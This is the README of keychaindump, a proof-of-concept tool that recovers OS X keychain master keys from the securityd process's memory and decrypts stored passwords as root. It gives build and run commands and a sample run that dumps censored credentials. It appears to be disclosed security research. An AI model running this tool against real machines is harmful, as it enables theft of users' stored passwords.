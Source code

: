 # keychaindump
Keychaindump is a proof-of-concept tool for reading OS X keychain passwords as root. It hunts for unlocked keychain master keys located in the memory space of the securityd process, and uses them to decrypt keychain files.

See the [blog post](http://juusosalonen.com/post/30923743427/breaking-into-the-os-x-keychain) for a much more readable description.

## How?
Build instructions:

    $ gcc keychaindump.c -o keychaindump -lcrypto

Basic usage:

    $ sudo ./keychaindump [path to keychain file, leave blank for default]

Example with truncated and censored output:

    $ sudo ./keychaindump 
    [*] Searching process 15 heap range 0x7fa809400000-0x7fa809500000
    [*] Searching process 15 heap range 0x7fa809500000-0x7fa809600000
    [*] Searching process 15 heap range 0x7fa809600000-0x7fa809700000
    [*] Searching process 15 heap range 0x7fa80a900000-0x7fa80ac00000
    [*] Found 17 master key candidates
    [*] Trying to decrypt wrapping key in /Users/juusosalonen/Library/Keychains/login.keychain
    [*] Trying master key candidate: b49ad51a672bd4be55a4eb4efdb90b242a5f262ba80a95df
    [*] Trying master key candidate: 22b8aa80fa0700605f53994940fcfe9acc44eb1f4587f1ac
    [*] Trying master key candidate: 1d7aa80fa0700f002005043210074b877579996d09b70000
    [*] Trying master key candidate: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found master key: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found wrapping key: e9acc39947f1996df940fceb1f458ac74b877579f54409b7
    xxxxxxx:192.168.1.1:xxxxxxx
    xxxxxxx@gmail.com:login.facebook.com:xxxxxxx
    xxxxxxx@gmail.com:smtp.google.com:xxxxxxx
    xxxxxxx@gmail.com:imap.google.com:xxxxxxx
    xxxxxxx:twitter.com:xxxxxxx
    xxxxxxx@gmail.com:www.google.com:xxxxxxx
    xxxxxxx:imap.gmail.com:xxxxxxx
    ...

## Who?
Keychaindump was written by [Juuso Salonen](http://twitter.com/juusosalonen), the guy behind [Radio Silence](http://radiosilenceapp.com) and [Private Eye](http://radiosilenceapp.com/private-eye).

## License
Do whatever you wish. Please don't be evil.